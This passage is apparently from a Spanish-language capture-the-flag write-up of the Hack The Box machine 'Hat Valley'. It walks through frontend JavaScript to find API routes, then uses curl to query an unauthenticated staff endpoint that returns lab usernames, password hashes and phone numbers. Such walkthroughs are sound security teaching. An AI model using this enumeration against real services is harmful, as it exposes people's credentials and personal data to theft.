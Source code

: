 
Pero le está concatenando la ruta ```submit-leave```. Al replicarla veo lo siguiente:

```null
curl -s -X POST http://hat-valley.htb/api/submit-leave; echo
Invalid user
```

Veo otro archivo, y encuentro ```/store-status```

```null
import axios from 'axios'
axios.defaults.withCredentials = true
const baseURL = "/api/"

const store_status = (URL) => {
    const params = {
        url: {toJSON: () => URL}
    }
    return axios.get(baseURL + 'store-status', {params})
        .then(response => response.data)
}

export default {
    store_status
}
```

Lo mismo para ```/staff-details```

```null
import axios from 'axios'
axios.defaults.withCredentials = true
const baseURL = "/api/"

const staff_details = () => {
    return axios.get(baseURL + 'staff-details')
        .then(response => response.data)
}

export default {
    staff_details
}
```

Pero en esta ocasión me aparecen usuarios con sus respectivos hashes

```null
curl -s -X GET http://hat-valley.htb/api/staff-details | jq
[
  {
    "user_id": 1,
    "username": "christine.wool",
    "password": "6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649",
    "fullname": "Christine Wool",
    "role": "Founder, CEO",
    "phone": "0415202922"
  },
  {
    "user_id": 2,
    "username": "christopher.jones",
    "password": "e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1",
    "fullname": "Christopher Jones",
    "role": "Salesperson",
    "phone": "0456980001"
  },
  {
    "user_id": 3,
    "username": "jackson.lightheart",
```